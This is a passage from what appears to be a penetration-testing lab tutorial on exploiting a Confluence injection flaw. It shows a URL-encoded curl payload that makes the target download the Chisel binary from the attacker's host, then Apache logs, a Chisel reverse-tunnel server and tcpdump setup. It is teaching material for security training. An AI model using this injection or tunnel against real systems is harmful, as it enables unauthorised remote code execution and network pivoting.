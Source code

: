 ```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

> Listing 4 - The Wget payload executed within our cURL Confluence injection command.

The Apache2 log file (**/var/log/apache2/access.log**) eventually shows the request for the Chisel binary coming in:

```
kali@kali:~$ tail -f /var/log/apache2/access.log
...
192.168.50.63 - - [03/Oct/2023:15:53:16 -0400] "GET /chisel HTTP/1.1" 200 8593795 "-" "Wget/1.20.3 (linux-gnu)"
```

> Listing 5 - The request for the Chisel binary hitting our Apache2 server.

Now that we have the Chisel binary on both our Kali machine and the target, we can run them. On the Kali machine, we'll start the binary as a server with the **server** subcommand, along with the bind port (**\--port**) and the **\--reverse** flag to allow the reverse port forward.

```
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
```

> Listing 6 - Starting the Chisel server on port 8080.

The Chisel server starts up and confirms that it is listening on port 8080 and has reverse tunneling enabled.

Before we try to run the Chisel client, we'll run **tcpdump** on our Kali machine to log incoming traffic. We'll start the capture filtering to **tcp port 8080** to only capture traffic on TCP port 8080.

```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

> Listing 7 - Starting tcpdump to listen on TCP/8080 through the tun0 interface.

Next, we'll try to start the Chisel client using the injection, applying the server address and the port forwarding configuration options on the command line.

We want to connect to the server running on our Kali machine (**192.168.118.4:8080**), creating a reverse SOCKS tunnel (**R:socks**). The **R** prefix specifies a reverse tunnel using a **socks** proxy (which is bound to port **1080** by default). The remaining shell redirections (**\> /dev/null 2>&1 &**) force the process to run in the background, so our injection does not hang waiting for the process to finish.
